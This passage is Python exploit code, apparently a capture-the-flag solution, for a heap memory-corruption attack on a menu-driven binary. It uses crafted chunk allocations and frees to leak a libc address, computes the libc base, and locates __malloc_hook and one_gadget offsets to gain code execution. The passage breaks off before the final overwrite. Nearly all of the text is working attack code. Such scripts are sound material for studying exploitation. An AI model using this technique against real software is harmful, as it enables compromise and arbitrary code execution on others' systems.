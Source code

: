     def show_chunk(index):
    	sla('choice: ','2')
    	sla('index: ',str(index))
    
    
    def del_chunk(index):
    	sla('choice: ','3')
    	sla('index: ',str(index))
    
    def hack():
    	raw_input()
    	alloc_chunk(0x48,'A')
    	payload = (p64(0x100) + p64(0x21))*15 + p64(0x100) + '\x21'
    	alloc_chunk(0xf9,payload)
    	alloc_chunk(0xf9,'A')
    	alloc_chunk(0x68,'A')
    	alloc_chunk(0x48,'A')
    
    	del_chunk(1)
    	del_chunk(0)
    	payload = 'A'*0x48
    	alloc_chunk(0x48,payload)
    
    	alloc_chunk(0x98,'A')
    	alloc_chunk(0x58,'A')
    
    	del_chunk(1)
    	del_chunk(2)
    
    	alloc_chunk(0x98,'A')
    	show_chunk(5)
    	ru('content: ')
    	top_addr = u64(rv(6).ljust(8,'\x00'))
    	lg('top_addr',top_addr)
    
    	libc.address = top_addr - 0x58 - 0x3C4B20
    	lg('libc.address',libc.address)
    
    	malloc_hook = libc.symbols['__malloc_hook']
    	lg('malloc_hook',malloc_hook)
    
    	# one_gadget0 = libc.address + 0x45216
    	# one_gadget1 = libc.address + 0x4526a
    	# one_gadget2 = libc.address + 0xf02a4
    	one_gadget3 = libc.address + 0xf1147
    	# system_addr = libc.symbols['system']
    	# lg('system_addr',system_addr)
    